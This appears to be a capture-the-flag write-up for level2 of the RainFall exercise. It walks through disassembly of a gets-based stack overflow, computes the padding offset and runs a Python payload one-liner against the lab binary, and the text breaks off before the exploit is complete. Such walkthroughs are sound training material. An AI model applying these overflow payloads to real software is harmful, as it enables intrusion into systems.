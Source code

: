 In hacking, a shellcode is **a small piece of executable code used as the payload in the exploitation of a software vulnerability**.

Just like in level1, we’ll try to create a payload to overwrite `ebp+0x4` (The value that is compared with `0xb0000000` and that triggers the `printf` call).

Let’s calculate how large our payload should be :

```nasm
   0x080484e7 <+19>:    lea    eax,[ebp-0x4c]                   // Load into eax whatever is at ebp-0x4c
   0x080484ea <+22>:    mov    DWORD PTR [esp],eax              // Make sure it is a size 32 ptr and put it on the stack
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>             // A call to gets
   0x080484f2 <+30>:    mov    eax,DWORD PTR [ebp+0x4]          // Move into eax whatever is at ebp+0x4
```

So we’re loading from `ebp-0x4c` (76) and we’re reading at `ebp+0x4` (4). Then the actual thing we’re comparing is 4 too so that makes 76 + 4 + 4 = 84

We can use an address like `0xbffffff` since `and` will be performed on it to check for a `0xb` start, the end of the address is irrelevant.

```nasm
level2@RainFall:~$ python -c 'print "A" * 80 + "\xff\xff\xff\xbf"' | ./level2
(0xbfffffff)
```

It just prints the address we gave it back, let’s analyze what happened

```nasm
   0x08048507 <+51>:    mov    eax,0x8048620                    // Put some data into eax                                             
   0x0804850c <+56>:    mov    edx,DWORD PTR [ebp-0xc]          // Put into edx whatever is at ebp-0xc                                
   0x0804850f <+59>:    mov    DWORD PTR [esp+0x4],edx          // Put that back into esp+0x4                                        
   0x08048513 <+63>:    mov    DWORD PTR [esp],eax              // Copy the top of the stack into eax                                 
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>           // Call printf  
```

Let’s see what at `0x8048620` :

```nasm
level2@RainFall:~$ gdb -q ./level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) x/s 0x8048620
0x8048620:       "(%p)\n"
```

That’s what’s happening, we’re getting the output inside parenthesizes. 

But that isn’t really helpful, let’s try to avoid the check and go to the other part of the program :

```nasm
   0x08048527 <+83>:    lea    eax,[ebp-0x4c]                   // Put into eax whatever is at ebp-0x4c
   0x0804852a <+86>:    mov    DWORD PTR [esp],eax              // Copy eax on top of the stack
	 0x0804852d <+89>:    call   0x80483f0 <puts@plt>             // Call puts
   0x08048532 <+94>:    lea    eax,[ebp-0x4c]                   // Put into eax whatever is at esp-0x4c again
   0x08048535 <+97>:    mov    DWORD PTR [esp],eax              // Move eax on top of the stack
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>           // Call strdup on it 
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
```
